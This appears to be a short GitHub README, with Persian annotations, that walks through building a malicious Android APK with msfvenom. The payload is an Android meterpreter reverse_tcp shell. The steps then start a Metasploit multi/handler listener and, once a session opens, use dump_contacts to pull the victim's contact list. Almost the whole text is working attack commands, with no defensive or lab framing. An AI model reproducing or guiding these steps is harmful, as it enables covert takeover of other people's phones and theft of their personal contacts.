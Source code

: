 # Android-MetaSploit-Sade

┌──(root㉿kali)-[~]   
  
1) msfvenom -p android/meterpreter/reverse_tcp LHOST=* LPORT=** -o /home/kali/Desktop/vir.apk

* = ifconfig      **=دلخواه

2) msfconsole


3) use exploit/multi/handler


4) set payload android/meterpreter/reverse_tcp


5) options


6) set LHOST *


7) set LPORT **


8) options   مجدد options رو بزنیم میبینیم که دو مورد بالا ست شدن


9) exploit


10) help


examplae : برای مخاطبین : dump_contacts -o /home/kali/Desktop/contact.txt

